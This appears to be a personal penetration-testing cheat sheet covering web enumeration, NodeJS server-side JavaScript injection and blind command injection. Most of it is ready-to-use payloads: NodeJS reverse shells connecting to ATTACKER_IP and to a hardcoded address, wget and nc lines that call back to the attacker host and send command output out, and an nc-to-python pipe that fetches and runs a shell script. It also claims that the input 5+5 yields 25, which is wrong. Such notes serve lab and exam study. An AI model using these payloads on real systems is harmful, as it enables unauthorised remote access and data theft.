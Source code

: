 # Misc


Always remember to searchsploit the name of whatever web-framework or CMS framework the website uses.


## Registration on websites

Often, we will be registering a new user on whatever site we are enumerating.
Consider running a registration from Burp so we can investigate the registration web traffic.

And always check your cookies after you have logged in.
Sometimes this will tell you how the site is managing admins from normal users.


## NodeJS and javascript injection

For simple NodeJS applications, remember to check if you can inject javascript to be run on the backend of the application.
If this isn't blind, you can do something like inputting `5+5` in the input parameter, and see if you extract the result `25`.
If this is the case, try to get a reverse shell with this:

```
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT}+0>%261"')
```


or:

```
(function(){
 var net = require(“net”),
 cp = require(“child_process”),
 sh = cp.spawn(“/bin/bash”, []);
 var client = new net.Socket();
 client.connect(21, “192.168.49.248”, function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/;
})();
```


## Gaining sight from blind command injection attacks

Tricks for verifying that a command actually goes through when doing blind command injection.
You can try:

```
wget ${ATTACKER_IP}
```
if that hits your IP, you are good.

You can also get a result from the command you run with e.g.:


```
echo whoami | nc ${ATTACKER_IP} ${ATTACKER_PORT}
```
And you should get the result on your nc listener on the port.
Note that this can also be used for checking bad special characters.


## exposing reverse shells with nc

Assume we have a linux box vulnerable to a command injection attack through a web server or something along those lines.
We can expose a reverse shell in the following way, if we so choose.

we pick a shell, e.g. python and place the python script in shell.py, and point it to `$ATTACKER_IP` and port 443.

Now on the attack box we run:


```
nc -nvlp 8080 < shell.py
```

and another listener on

```
nc -nvlp 443
```

Now, if we inject the command:
```
nc $ATTACKER_IP 8080 | python
```

We get a shell on the last listener we opened.
This can help us avoid having to send special characters over the wire to the target boxes.

